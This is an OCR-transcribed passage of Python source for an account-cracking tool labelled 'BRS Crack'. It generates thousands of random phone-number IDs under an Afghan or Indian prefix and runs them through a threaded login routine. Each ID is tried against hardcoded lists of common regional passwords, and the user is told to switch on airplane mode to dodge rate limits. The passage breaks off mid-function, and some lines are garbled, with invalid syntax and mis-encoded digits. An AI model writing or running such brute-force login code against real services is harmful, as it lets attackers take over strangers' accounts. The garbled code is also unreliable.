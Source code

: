 def afg():
                user=[]
                clear()
                print('\033[1;37m Example : 9377,9379,9374')
                code = input('\033[1;37m Put Code : ')
                try:
                        limit = int(input('\033[1;37m Example : 2000, 3000, 5000, 10000\n\033[1;37m PUT LIMIT : '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7))
                        user.append(nmp)
                with tred(max_workers=30) as BRS.py:     
                        clear()
                        
                        tl = str(len(user))
                        print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mTotal id : \033[1;97m'+tl)
                        print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mSelect code :\033[1;97m '+code)
                        print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mBRS Crack Has Been Running \n \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mUse Airplane after 3 minutes')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'afghan','afghan12345','afghan123','600700','afghanistan','afghan1122','500500','100200','10002000','900900','kabul123','Û±Û³Û³Û³ÛµÛ¶Û·Û¸Û¹','Û±Û³Û³Û³ÛµÛ¶','afghan1234','kabul1234','khankhan','khan123','khan123456','khan786']
                                BRS.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' TOTAL OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
                os.system('python .py')
def ind():
                user=[]
                clear()
                print('\033[1;37m Example : 91***,etc')
                code = input('\033[1;37m Put Code : ')
                try:
                        limit = int(input('\033[1;37m Example : 2000, 3000, 5000, 10000\n\033[1;37m PUT LIMIT : '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7))
                        user.append(nmp)
                with tred(max_workers=30) as BRS:     
                        clear()
                        
                        tl = str(len(user))
                        print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mTotal id : \033[1;97m'+tl)
                        print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mSelect code :\033[1;97m '+code)
                        print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mBRS Crack Has Been Running \n \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mUse Airplane after 3 minutes')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'57273200','hindustan','kingkhan','india123','59039200','57575751']
                                BRS.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' TOTAL OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()